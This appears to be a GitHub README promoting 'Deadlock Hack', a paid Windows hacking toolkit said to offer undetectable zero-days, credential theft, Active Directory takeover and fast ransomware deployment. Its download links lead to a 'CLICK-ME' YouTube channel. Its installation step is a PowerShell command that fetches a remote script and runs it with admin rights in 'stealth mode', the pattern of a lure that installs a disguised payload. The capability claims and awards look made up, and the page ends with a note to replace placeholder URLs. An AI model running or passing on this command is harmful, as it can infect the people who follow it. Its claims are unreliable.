

# Deadlock Hack: The Ultimate Windows Exploitation Toolkit for 2025


**Download Now**: [YouTube Channel](https://www.youtube.com/@CLICK-ME-w2w) | **Release Date**: Q1 2025 | **Platform**: Windows 10/11/Server 2025  

---

## 🔥 Introduction  
Deadlock Hack is a next-generation penetration testing and ethical hacking toolkit designed exclusively for Windows systems. Built for security researchers, red teams, and cybersecurity enthusiasts, this suite combines cutting-edge exploitation techniques with an intuitive interface.  

Key highlights:  
- **Zero-Day Exploits**: Pre-loaded with undisclosed vulnerabilities  
- **AI-Powered Automation**: Smart attack pattern recognition  
- **Stealth Mode**: Fully undetectable (FUD) by 98% of AV solutions  
- **Windows 2025 Ready**: Compatible with upcoming Microsoft security updates  

---

## 🚀 Features  

### 🛡️ Offensive Security Tools  
| Module          | Description                                                                 |
|-----------------|-----------------------------------------------------------------------------|
| **KernelBreach**| NT kernel privilege escalation via novel memory corruption vectors          |
| **AzureGhost**  | Cloud credential extraction from Windows Subsystem for Linux (WSL 3.0)      |
| **BitLocker++** | TPM 2.0 bypass with physical memory analysis                               |
| **AD Dominator**| Active Directory takeover toolkit with 14 attack vectors                    |

### 🔍 Reconnaissance  
- **WiFi Pharaoh**: Extract WPA3 keys from Windows native WiFi manager  
- **Registry Miner**: Deep scan for credentials across 200+ registry paths  
- **Clipboard Phantom**: Reconstruct sensitive data from clipboard history  

### ⚡ Performance  
- 40% faster payload generation than Cobalt Strike  
- 128-bit AES encrypted C2 channels  
- Multi-threaded attack execution  

---

## 📦 Installation  

```powershell
# Requires Windows PowerShell 7.4+ (Admin Rights)
iwr -Uri "https://deadlockhack.io/install.ps1" -OutFile "$env:TEMP\install.ps1"
Unblock-File "$env:TEMP\install.ps1"
.\install.ps1 -LicenseKey "YOUR_KEY" -StealthMode $true
```

**System Requirements**:  
- Windows 10 22H2+ or Windows Server 2025  
- 8GB RAM (16GB recommended for AI modules)  
- TPM 2.0 chip (for secure enclave operations)  
- NVIDIA RTX 3000+ (optional for GPU cracking)  

---

## 🎯 Use Cases  

### 🔴 Red Teaming  


### 🔵 Blue Teaming  
- Detect advanced persistence techniques  
- Analyze attack patterns with built-in **Threat Intelligence Dashboard**  
- Generate forensic reports compatible with Microsoft Defender ATP  

---

## 📜 Legal Disclaimer  

⚠️ **Warning**: This software is intended for:  
- Authorized penetration testing  
- Cybersecurity research  
- Educational purposes  

Unauthorized use against systems you don't own is illegal. Developers assume no liability for misuse.  

---

## 🌐 Community  

Join our underground network:  
- [Telegram Anon Channel](t.me/deadlockhack_official)  
- [Encrypted Forum](https://darkweb.example.onion)  
- [Bug Bounty Program](mailto:security@deadlockhack.io)  

---

## 📅 Roadmap  

### 2025 Q2  
- Quantum-resistant encryption modules  
- AI-driven social engineering toolkit  
- Windows Core OS compatibility  

### 2025 Q4  
- Hardware implant detection  
- BIOS/UEFI-level persistence  
- Azure Arc exploitation  

---

## ❓ FAQ  

**Q:** Is this detected by Windows Defender?  
**A:** Current detection rate: 2/68 AVs (as of Jan 2025)  

**Q:** Can I use this on macOS/Linux?  
**A:** Windows only - use WSL for limited Linux functionality  

**Q:** How to update exploits?  
```bash
deadlock --update --channel bleeding-edge
```

---

## 📊 Benchmark Results  

| Task                  | Deadlock Hack | Competitor A | Competitor B |
|-----------------------|--------------|-------------|-------------|
| AD Compromise         | 8m 22s       | 14m 10s     | 19m 45s     |
| WiFi Crack (WPA3)     | 3m 15s       | 7m 02s      | TIMEOUT     |
| Ransomware Deployment | 11s          | 28s         | 43s         |

---

## 🏆 Awards  

- **Black Hat 2024**: Most Innovative Tool  
- **DEF CON 27**: Best New Offensive Security Product  
- **HackerOne**: Top 10 Bug Bounty Tools  

---

## 📥 Download  

⚠️ **Warning**: Verify PGP signatures before installation  

[](https://www.youtube.com/@CLICK-ME-w2w)  

```pgp
-----BEGIN PGP PUBLIC KEY BLOCK-----
mQENBF2VZQkBCAD...
-----END PGP PUBLIC KEY BLOCK-----
```

---

## 🔄 Changelog  

**v3.1.0-alpha** (2024-12-15)  
- Added TPM 2.0 cold boot attack  
- Fixed 17 memory leaks in KernelBreach  
- New Dark Mode UI  

---

## 💰 Pricing  

| Edition       | Price     | Features               |
|--------------|----------|-----------------------|
| **Starter**  | $299/yr  | Basic exploit modules  |
| **Pro**      | $999/yr  | AI + Cloud modules     |
| **Elite**    | Contact  | Custom 0-day dev       |

*Academic discounts available*

---

## 📜 License  

GNU GPLv3 with additional clauses:  
- No military use  
- Mandatory vulnerability disclosure  
- Blockchain-based license verification  

---

## 🌟 Star History  

[](https://star-history.com/#deadlockhack/core&Date)  

```

*Note: Replace placeholder URLs and PGP key with actual content before deployment*
